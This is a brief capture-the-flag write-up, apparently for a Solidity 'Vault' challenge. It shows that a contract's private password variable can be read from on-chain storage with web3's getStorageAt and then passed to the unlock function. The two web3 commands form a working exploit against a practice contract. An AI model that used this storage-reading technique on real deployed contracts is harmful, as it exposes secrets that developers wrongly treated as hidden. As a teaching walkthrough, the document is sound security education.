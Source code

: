 ### Goals

Unlock the vault

### Exploit

To crack this level we need to call `Vault::unlock(bytes32)` with correct bytes. How can we know the secret password? It's saved in Vault storage, the variable is marked as private but on blockchain nothing is private.

### Code

In developer tools we will read the password by reading Vault storage

```code
await web3.eth.getStorageAt(contract.address, 1);
> '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
```

Now we now password, we just need to call `unlock` function

```code
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

Done!
